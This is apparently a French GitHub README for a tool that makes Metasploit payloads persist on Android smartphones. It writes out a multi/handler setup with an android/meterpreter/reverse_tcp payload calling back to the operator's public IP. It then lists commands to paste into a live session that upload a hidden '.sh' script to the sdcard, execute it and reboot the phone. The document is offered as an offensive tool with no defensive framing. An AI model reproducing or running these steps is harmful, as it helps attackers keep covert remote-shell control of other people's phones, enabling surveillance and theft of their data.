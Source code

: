# MSF PERSISTANCE ANDROID

![msf](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/img/logo-msf.png) ![android](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/img/logo-android.png)


## INDEX

- [Introduction](#INTRODUCTION)
- [Prerequis](#PREREQUIS)
- [Utilisation](#UTILISATION)
- [License](#LICENSE)


## INTRODUCTION

Ce script permet la persistance des payload sur smartphone Android via Metasploit.


## PREREQUIS

utiliser [Metasploit](https://www.metasploit.com/)


## UTILISATION

1 - Mettez le script msf-persistance-android.sh dans votre dossier personnel et renommez le .sh


2 - Ouvrir MSF

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost VOTRE IP PUBLIC
set lport LE PORT DE VOTRE CHOIX
exploit
```


3 - Copier/Coller dans un terminal en console MSF avec une session android/meterpreter/reverse_tcp

```
cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```


## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://github.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
